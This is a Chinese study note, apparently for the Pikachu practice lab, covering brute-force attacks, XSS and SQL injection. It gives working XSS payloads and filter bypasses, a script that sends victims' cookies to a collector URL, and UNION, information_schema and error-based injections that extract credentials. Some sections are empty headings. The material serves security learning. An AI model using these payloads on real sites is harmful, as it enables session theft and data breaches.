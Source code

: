 <!-- TOC -->

- [Web安全](#web%E5%AE%89%E5%85%A8)
    - [暴力破解漏洞](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E6%BC%8F%E6%B4%9E)
        - [有效的字典](#%E6%9C%89%E6%95%88%E7%9A%84%E5%AD%97%E5%85%B8)
        - [漏洞测试流程](#%E6%BC%8F%E6%B4%9E%E6%B5%8B%E8%AF%95%E6%B5%81%E7%A8%8B)
        - [验证码](#%E9%AA%8C%E8%AF%81%E7%A0%81)
        - [防范措施](#%E9%98%B2%E8%8C%83%E6%8E%AA%E6%96%BD)
    - [跨站脚本漏洞 - XSS](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E---xss)
        - [跨站脚本漏洞概述](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E%E6%A6%82%E8%BF%B0)
        - [反射型XSSget](#%E5%8F%8D%E5%B0%84%E5%9E%8Bxssget)
        - [存储型XSS](#%E5%AD%98%E5%82%A8%E5%9E%8Bxss)
        - [DOM型XSS](#dom%E5%9E%8Bxss)
        - [案例1：GET型XSS获取cookie](#%E6%A1%88%E4%BE%8B1get%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例2：POST型XSS获取cookie](#%E6%A1%88%E4%BE%8B2post%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例3：XSS钓鱼 - basic认证](#%E6%A1%88%E4%BE%8B3xss%E9%92%93%E9%B1%BC---basic%E8%AE%A4%E8%AF%81)
        - [案例4：XSS键盘记录](#%E6%A1%88%E4%BE%8B4xss%E9%94%AE%E7%9B%98%E8%AE%B0%E5%BD%95)
        - [XSS盲打](#xss%E7%9B%B2%E6%89%93)
        - [XSS绕过-过滤-转换](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E8%BD%AC%E6%8D%A2)
        - [XSS绕过-过滤-编码](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E7%BC%96%E7%A0%81)
        - [XSS绕过-htmlspecialchars使用](#xss%E7%BB%95%E8%BF%87-htmlspecialchars%E4%BD%BF%E7%94%A8)
        - [XSS实战练习](#xss%E5%AE%9E%E6%88%98%E7%BB%83%E4%B9%A0)
    - [SQL注入](#sql%E6%B3%A8%E5%85%A5)
        - [数字型注入](#%E6%95%B0%E5%AD%97%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [字符型注入](#%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [搜索型注入](#%E6%90%9C%E7%B4%A2%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [xx型注入](#xx%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [案例1-基于union的信息获取](#%E6%A1%88%E4%BE%8B1-%E5%9F%BA%E4%BA%8Eunion%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [mysql相关知识](#mysql%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86)
        - [案例2-基于information_schema的信息获取](#%E6%A1%88%E4%BE%8B2-%E5%9F%BA%E4%BA%8Einformation_schema%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [案例3-基于函数报错的信息获取](#%E6%A1%88%E4%BE%8B3-%E5%9F%BA%E4%BA%8E%E5%87%BD%E6%95%B0%E6%8A%A5%E9%94%99%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [案例4-基于insert、update、delete的注入](#%E6%A1%88%E4%BE%8B4-%E5%9F%BA%E4%BA%8Einsertupdatedelete%E7%9A%84%E6%B3%A8%E5%85%A5)
    - [相关链接](#%E7%9B%B8%E5%85%B3%E9%93%BE%E6%8E%A5)

<!-- /TOC -->
# Web安全


## 暴力破解漏洞

暴力破解 = 连续性尝试 + 字典+ 自动化

### 有效的字典

- 弱口令，简单的密码，如111111或者123456，常用的账户密码，如admin/root
- 社工库，已收集的账号密码，比如脱裤收集的，可以撞库
- 遵循注册时的密码要求，使用指定字符利用工具按照规则生成密码

### 漏洞测试流程

- 确认暴力破解的可能性，如抓包
- 优化字典，如密码限定字符、长度
- 配置自动化工具，如超时时间、重试次数
- [常见字典](https://github.com/danielmiessler/SecLists)
- 注意事项：字典导入时不能有中文路径

### 验证码

- 作用
    - 防止登陆时的暴力破解
    - 防止机器恶意注册
- 认证流程
    - 登陆页面，后台生成验证码，同时使用算法生成图片，并将图片 response 给客户端，同时将算法生成的值全局赋值存到 session 中
    - 校验验证码，客户端将认证信息和验证码一同提交，后台对提交的验证码与 session 里面的验证码进行比较
    - 客户端重新刷新页面，再次生成新的验证码，验证码算法中一般包含随机函数，所以每次刷新都会改变
- 不安全验证码 - 客户端
    - 使用前端js实现验证码(纸老虎)
    - 验证码在cookie容易泄露，可被获取
    - 将验证码在前端源代码中泄露，容易被获取
- 不安全验证码 - 服务端
    - 验证码在后台不过期，导致可以长期被使用
    - 验证码校验不严格，逻辑出现问题
    - 验证码设计的太过简单或者有规律，容易被猜解
    - [session？](https://zhuanlan.zhihu.com/p/164696755)

### 防范措施

- 设计安全的验证码（安全的流程 + 复杂而又可用的图形）
- 对认证错误的提交进行计数并给出限制，比如连续5次密码错误，锁定2小时
- 必要的情况下，使用双因素认证
- token对防止暴力破解没有用



## 跨站脚本漏洞 - XSS

### 跨站脚本漏洞概述

- XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在 OWASP TOP10的排名前三
- XSS是一种发生在Web前端的漏洞，所以其危害的对象也主要是前端用户
- XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、用户 cookie 获取。甚至可以结合浏览自身的漏洞对用户主机进行远程控制
- 常见类型
  - 反射型，交互的数据一般不会被存在在数据库里面，一次性，一般岀现在查询类页面等
  - 存储型，存储在数据库里面，永久性，一般岀现在留言板，注册等页面
  - DOM型，不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性，也属于反射型
漏洞形成原因：主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
- 测试流程
  - 在目标站点上找到输入点，比如查询接口，留言板等
  - 输入一组“特殊字符 + 唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理
  - 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）
  - 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XS漏洞
- TIPS
  - 一般查询接口容易出现反射型XSS，留言板容易岀现存储型XSS
  - 由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行(浏览器)
  - 通过变化不同的script，尝试绕过后台过滤机制

### 反射型XSS(get)

该测试中，前台未进行输入限制，后台未进行输入转义，导致js脚本正常执行，构成反射性XSS

```html
<p class='notice'>who is <script>alert('xss')</script>,i don't care!</p> 
```
对于get型XSS，payload直接放在url中

```html
http://192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```

- GET方式的XSS漏洞更加容易被利用，一般利用的方式是将带有跨站脚本的url伪装后发送给目标，而POST方式由于是以表单方式提交，无法直接使用URL方式进行攻击
- GET和POST典型区别：GET是以url方式提交数据，POST是以表单方式在请求体里面提交

### 存储型XSS

存储型XSS漏洞跟反射型形成的原因一样，不同的是存储型XSS下攻击者可以将脚本注入到后台存储起来，构成更加持久的危害，因此存储型XSS也称“永久型”XSS。

```html
<p class='con'><script>alert('xss')</script></p>
<http://192.168.43.65/pikachu/vul/xss/xss_stored.php>
```


### DOM型XSS

[DOM举例](https://www.w3school.com.cn/tiy/t.asp?f=hdom_document_getbyid)

```html
<!--源码-->
<a href='"+str+"'>what do you see?</a>
<!--payload-->
#' onclick="alert('xss')"/>
<!--闭合-->
<a href='#' onclick="alert('xss')"/>'>what do you see?</a>
```

### 案例1：GET型XSS获取cookie

```html
<!--注意pkxss的路径-->
<script>document.location = 'http://192.168.43.65/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>

192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=<script>document.location+%3D+'http%3A%2F%2F192.168.43.65%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D'+%2B+document.cookie%3B<%2Fscript>&submit=submit
```

[什么是cookie？](https://www.jianshu.com/p/6fc9cea6daa2)

### 案例2：POST型XSS获取cookie

### 案例3：XSS钓鱼 - basic认证

### 案例4：XSS键盘记录

**什么是跨域？**

| http:// | www.   | xyz.com: | 8080 | /script/test.js |
| ------- | ------ | -------- | ---- | --------------- |
| 协议    | 子域名 | 主域名   | 端口 | 资源地址        |

当协议、主机（主域名,子域名）、端口中的任意一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，称为跨域操作。

**跨域-同源策略**
- 为了安全考虑，所有的浏览器都约定了“同源策略”,，同源策略规定，两个不同域名之间不能使用JS进行相互操- 作。
- 比如: x.com域名下的javascript并不能操作y.com域下的对象。
- 如果想要跨域操作,则需要管理员进行特殊的配置。

### XSS盲打

用户提交信息，推测后台管理员会看，输出在管理员看到的页面。获取管理员cookie，冒充管理员在后台为所欲为。

### XSS绕过-过滤-转换

1. 前端限制绕过,直接抓包重放,或者修改html前端代码
2. 大小写,比如:<SCriPt>
3. 拼凑:<scr<script>ipt> 
4. 使用注释进行干扰:<scri<!--test-->pt>

### XSS绕过-过滤-编码

核心思路：后台过滤了特殊字符,比如<script>标签,但该标签可以被各种编码,后台不一定会过滤,当浏览器对该编码进行识别时,会翻译成正常的标签，从而执行.
注意：在使用编码时需要注意编码在输出点是否会被正常识别和翻译.
```html
<!--例如-->
<img src=x onerror=”alert('xss')" />可以把alert("xss")进行html编码
<img src=x onerror "&#97;&# 108;&# 101;&# 114;&# 116;&#40;&#39;&# 120;&# 115;&# 115;&#39;&#41;
```


### XSS绕过-htmlspecialchars()使用

### XSS实战练习

xss-lab，放在xmapp的htdocs文件夹中，打开apache，访问即可。


## SQL注入
在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。

### 数字型注入
```php
//后台源码
if(isset($_POST['submit']) && $_POST['id']!=null){
    //这里没有做任何处理，直接拼到select里面去了,形成Sql注入
    $id=$_POST['id'];
    $query="select username,email from member where id=$id";
    $result=execute($link, $query);
    //这里如果用==1,会严格一点
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $username=$data['username'];
            $email=$data['email'];
            $html.="<p class='notice'>hello,{$username} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的user id不存在，请重新输入！</p>";
    }
}
```
```sql
--正常查询出一条记录
select eamil where user_id = 1 --or 1=1; 
--注入，查询所有记录
select eamil where user_id = 1 or 1 = 1；
```

### 字符型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
```sql
--正常情况
select email from users where username = 'kobe';-- kobe' or 1=1#
--在url中构造闭合，注入
select email from users where username = 'kobe' or 1=1#'
```

### 搜索型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配，需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
    }else{

        $html1.="<p class='notice'>0o。..没有搜索到你输入的信息！</p>";
    }
}
```

```sql
--正常情况
select email from users where username like '%k%'; --k%' or 1=1#
--构造闭合，注入
select email from users where username like '%k%' or 1=1#%';

```

### xx型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}

```

```sql
--正常情况
select email from users where username = kobe;
--构造闭合，注入
select email from users where username = 'kobe') or 1=1#;
```

```sql
--通过一个输入，查看返回结果，并判断输入是否参与后台的sql语句中
---如果1正常输出，2不能正常输出，说明拼接成功，存在sql漏洞
kobe' and 1=1#;
kobe' and 1=2#;

--单个字符的测试，如'或者"，欺骗后天数据库报错
```
总结：闭合测试，构造sql，欺骗后台执行

>小知识：MySQ有三种注释，``#`` ``--`` ``/**/``

### 案例1-基于union的信息获取
```sql
select email from users where id = 1 union select database();
select email from users where id = 1 union select user();
select email from users where id = 1 union select version();
--字符型sql注入闭合，先用order by判断字段数，假设为1
xx' union select database();
```
### mysql相关知识
```sql
--union用法，前后字段数一致
select email from users where id = 1
 union 
select 字段1 from 表名 where 条件;
select database();--获取当前数据库名称
select user();--当前用户权限
select version();--当前数据库版本

show databases;--查看所有数据库
show tables;--查看所有表
desc user;--查看user表所有字段
use information_schema;--切换数据库
--查询表中有几个字段
---使用第一列进行排序，如果第一列存在，则可以正常输出，否则错误
select id from users where username = 'kobe' order by 1;

```

### 案例2-基于information_schema的信息获取
mysql自带一个数据库 information_schema 非常重要，里面有很多信息。
```sql
--获取当前数据库名称 pikachu 
select email,username from users where id = 1
 union
select database(),user();
----payload
kobe' union select database(),user()#

--获取表名 users
select email,username from users where id = 1
 union 
select table_schema,table_name from information_schema.tables where table_schema = 'pikachu';
---payload
kobe' union select table_schema,table_name from information_schema.tables where table_schema = 'pikachu'#

--获取字段名
select email,username from users where id = 1
 union 
select table_name,column_name from information_schema.columns where table_name = 'users';
---payload
kobe' union select table_name,column_name from information_schema.columns where table_name = 'users'#

--获取内容
select email,username from users where id = 1
 union 
select username,password from users;
---payload
kobe' union select username,password from users#

```

### 案例3-基于函数报错的信息获取
背景条件：后台没有屏蔽数据库报错信息或者做标准化处理，在语法发生错误时会输出在前端
- updatexml(xml_document,XpathString,new_value): 是MySQL对XML文档数据进行查询和修改的XPATH函数,XpathString必须是有效的，否则报错
- extractvalue(xml_document,XpathString): 是MySQL对XML文档数据进行查询的XPATH函数,XpathString必须是有效的，否则报错
- floor(): MySQL中用来取整的函数

```sql
--第一步，先检查有没有报错信息返回
--第二部，构造payload
kobe' and updatexml(1,version(),0)# --输出version信息不完整
kobe' and updatexml(1,concat(0x7e,version()),0)# --0x7e是~的16进制
kobe' and updatexml(1,concat(0x7e,database()),0)#

--使用上次使用schema的select语句，替换version()
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'pikachu')),0)# --Operand should contain 1 column(s)
--使用这种方式，可以和之前一样，一个一个的拿到表，拿到字段，拿到信息
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'pikachu' limit 0,1)),0)# --XPATH syntax error: '~httpinfo',limit 0/1/2/3/4/5 1
```

### 案例4-基于insert、update、delete的注入
不同于select注入，不能使用union
```sql
--正常语句，insert注入多用在注册类环境下
insert into users(username,password,id) values('xiaoming',123456,001);
--使用 ' or …… or ' 拼接
insert into users(username,password,id) values('xiaoming' or updatexml(1,concat(0x7e,version()),0) or '',123456,001);
--payload
xiaoming' or updatexml(1,concat(0x7e,version()),0) or '

--update多用在更新信息环境下
xiaoming' or updatexml(1,concat(0x7e,version()),0) or ' ----payload，类似于insert

--delete注入
1 or updatexml(1,concat(0x7e,version()),0) or '
--正常情况
delete from message where id = 1;
```



## 相关链接
[视频教程](https://www.ichunqiu.com/course/63838)[|靶场](https://github.com/zhuifengshaonianhanlu/pikachu)
